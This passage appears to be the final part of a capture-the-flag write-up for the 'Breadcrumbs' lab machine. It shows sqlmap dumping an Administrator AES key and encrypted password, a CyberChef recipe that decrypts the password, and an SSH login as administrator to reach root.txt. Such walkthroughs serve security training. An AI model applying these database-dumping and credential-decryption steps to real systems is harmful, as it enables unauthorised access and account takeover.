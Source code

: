 ```
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: bread
Table: passwords
[1 entry]
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+

[11:02:15] [INFO] table 'bread.passwords' dumped to CSV file '/home/jack/.local/share/sqlmap/output/localhost/dump/bread/passwords.csv'
[11:02:15] [INFO] fetched data logged to text files under '/home/jack/.local/share/sqlmap/output/localhost'

[*] ending @ 11:02:15 /2021-07-17/
```

There are multiple ways to decrypt it, one of the easiest is using cyberchef. We fill in all the values after decoding the base64 password. We also set the IV to all 0's. Upon filling in the whole recipe cyberchef starts the decryption automatically.

```
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0
```

[![cyberchef.png](/img/breadcrumbs/cyberchef.png)](/img/breadcrumbs/cyberchef.png)

The password indeed works and we can log into the machine as the administrator user. Now we are able to add the `root.txt` from the administrators desktop to our collection

```
$ssh administrator@10.129.175.242
administrator@10.129.175.242's password: 
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

administrator@BREADCRUMBS C:\Users\Administrator>
```

